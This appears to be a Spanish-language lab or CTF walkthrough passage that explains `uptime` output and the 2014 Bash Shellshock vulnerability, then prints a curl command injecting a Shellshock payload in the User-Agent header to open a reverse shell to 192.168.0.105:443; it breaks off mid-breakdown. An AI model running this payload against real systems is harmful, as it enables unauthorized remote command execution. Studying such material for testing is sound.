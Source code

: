 ![](attachment/2751c6285f7ef98b6294c1b02bb554b0.png)
____
La imagen  muestra la salida de un comando típico en un sistema Unix/Linux que muestra información sobre el tiempo de actividad del sistema y la carga promedio. Específicamente, parece la salida del comando `uptime`.
### Desglose de la Salida:

```plaintext
09:41:39 up 5 min, 0 users, load average: 1.11, 0.85, 0.37
```

1. **09:41:39**:
   - La hora actual en formato HH:MM:SS.

2. **up 5 min**:
   - El sistema ha estado en funcionamiento durante 5 minutos.

3. **0 users**:
   - No hay usuarios actualmente conectados al sistema.

4. **load average: 1.11, 0.85, 0.37**:
   - Estos son los promedios de carga del sistema para los últimos 1, 5 y 15 minutos, respectivamente.
___
tenemos versiones muy viejas por lo que deberíamos investigar un shellshock y probar si el sistema es vulnerable al mismo.

Shellshock es una vulnerabilidad crítica que fue descubierta en el shell Bash (Bourne Again Shell) en septiembre de 2014. Esta vulnerabilidad, también conocida como Bashdoor, afecta muchas versiones de Bash y permite a los atacantes ejecutar comandos arbitrarios en sistemas que utilizan Bash como shell. A continuación, se detallan los aspectos más importantes de Shellshock:
### Descripción de la Vulnerabilidad

La vulnerabilidad de Shellshock se explota a través de la manipulación de variables de entorno. Cuando Bash procesa una variable de entorno que contiene un código malicioso, ejecuta inadvertidamente ese código. Esto se debe a cómo Bash evalúa las funciones exportadas a través de variables de entorno.

investigando por la web descubrimos que con el comando curl podemos enviar un peticion cargando código maliciosos en el User-Agent.

```shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.0.105/443 0>&1' http://192.168.0.103/cgi-bin/underworld/
```

como podemos ver estamos inyectado una reverse shell un tanto antigua.
### Desglose de Componentes

1. **curl**:
    